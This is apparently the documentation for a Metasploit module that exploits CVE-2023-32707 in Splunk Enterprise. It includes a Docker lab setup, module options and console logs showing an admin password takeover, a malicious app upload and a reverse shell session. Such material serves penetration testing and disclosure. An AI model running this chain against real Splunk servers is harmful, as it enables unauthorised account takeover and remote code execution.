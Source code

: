 ## Vulnerable Application

### Description

An authorization issue within Splunk Enterprise allows any user with the edit_user capability to take over
the admin account (or any other chosen account) by simply changing its password.

On June 1, 2023, Splunk released a software update that addressed this vulnerability (CVE-2023-32707).

The following products are affected:

Splunk Enterprise:
 - from 8.1 before 8.1.14
 - from 8.2 before 8.2.11
 - from 9.0 before 9.0.5

Splunk Cloud Platform:
 - before 9.0.2303.100

### Exploitation

This module exploits this authorization issue to take over the admin account (or any other account with
the capability `install_apps`) to deploy an app within Splunk, aiming to achieve remote code execution.

To achieve that this module:
- Will change the password of the targeted user;
- Will deploy an app with a malicious payload;

After the execution the cleanup method will be called and:
- Should delete the deployed app;

### Setup

Create a Splunk's docker container with the following command:

```bash
    docker run --rm -p 8000:8000 -p 8089:8089 -e "SPLUNK_START_ARGS=--accept-license" -e "SPLUNK_PASSWORD=password" --name splunk-9.0.4 splunk/splunk:9.0.4
```

```bash
    # Creating non-admin user
    $ curl -k -u admin:password https://localhost:8089/services/authentication/users -d name=redway -d password=changeme -d roles=user -d createrole=1 -X POST
    # Adding capability to edit_user to the non-admin role
    $ curl -k -u admin:password https://localhost:8089/services/authorization/roles/user-redway -d capabilities=edit_user -X POST
```

**One must log in at least once on the web interface (http://localhost:8000). Otherwise, this module will fail to get the CSRF
token on the `appinstall`.**

## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### USERNAME (required)

The username that with the capability `edit_user` to authenticate with.

### PASSWORD (required)

The password of the user to authenticate with.

### RHOSTS (required)

The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html

### RPORT (required)

The target port (TCP)

### TARGET_USER (required)

The username to change the password for (default: admin)

### TARGET_PASSWORD

The new password to set for the admin user (default: random)

### APP_NAME

The name of the app to upload (default: random)

## Scenarios

### Docker container running Splunk 9.0.4


If the user you have access doen't have the capability `edit_user` the module will fail as shown below:

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > check

[*] Splunk version 9.0.4 detected
[*] 127.0.0.1:8000 - The target is not exploitable. User 'redway' does not have 'edit_user' capability
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) >

```

If the targeted user does have the capability `install_apps` the module will fail as shown below:

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Splunk version 9.0.4 detected
[+] The target appears to be vulnerable. User 'redway' has 'edit_user' capability
[*] Changing 'user' password to yMDIOKyrHoUx
[+] Password of the user 'user' has bee changed to yMDIOKyrHoUx
[-] Exploit aborted due to failure: bad-config: The user 'user' does not have 'install_app' capability. You may consider to target other user
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) >
```

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > options

Module options (exploit/multi/http/splunk_privilege_escalation_cve_2023_32707):

   Name             Current Setting      Required  Description
   ----             ---------------      --------  -----------
   APP_NAME                              no        The name of the app to upload (default: random)
   PASSWORD         changeme             yes       The password for the specified username
   Proxies          http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           127.0.0.1            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            8000                 yes       The target port (TCP)
   SSL              false                no        Negotiate SSL/TLS for outgoing connections
   TARGET_PASSWORD                       no        The new password to set for the admin user (default: random)
   TARGET_USER      admin                yes       The username to change the password for (default: admin)
   USERNAME         redway               yes       The username with "edit_user" role to authenticate as
   VHOST                                 no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.17.0.1       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The system shell to use


Exploit target:

   Id  Name
   --  ----
   0   Splunk <= 9.0.5, 8.2.11, and 8.1.14 / Linux



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Splunk version 9.0.4 detected
[+] The target appears to be vulnerable. User 'redway' has 'edit_user' capability
[*] Changing 'admin' password to srviInIpi
[+] Password of the user 'admin' has bee changed to srviInIpi
[*] Uploading app stringtough
[*] Uploading file stringtough
[*] Creating an application package named: stringtough
[+] stringtough successfully uploaded
[*] Waiting for session
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:52672) at 2023-09-12 15:19:53 +0200

id
uid=41812(splunk) gid=41812(splunk) groups=41812(splunk),999(ansible)
pwd
/opt/splunk/etc/apps/stringtough/bin
exit
[*] 127.0.0.1 - Command shell session 1 closed.
```

### Docker container running Splunk 9.0.5

On a **non-vulnerable** version the module will fail as shown below:

```
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit 

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Detected Splunk version 9.0.5 which is not vulnerable ForceExploit is enabled, proceeding with exploitation.
[*] Changing 'admin' password to iDKBmVsj
[-] Exploit aborted due to failure: unexpected-reply: Unable to change admin's password.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > set ForceExploit true
ForceExploit => true
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > exploit 

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Detected Splunk version 9.0.5 which is not vulnerable ForceExploit is enabled, proceeding with exploitation.
[*] Changing 'admin' password to scupUXtcV
[-] Exploit aborted due to failure: unexpected-reply: Unable to change admin's password.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/splunk_privilege_escalation_cve_2023_32707) > 
```
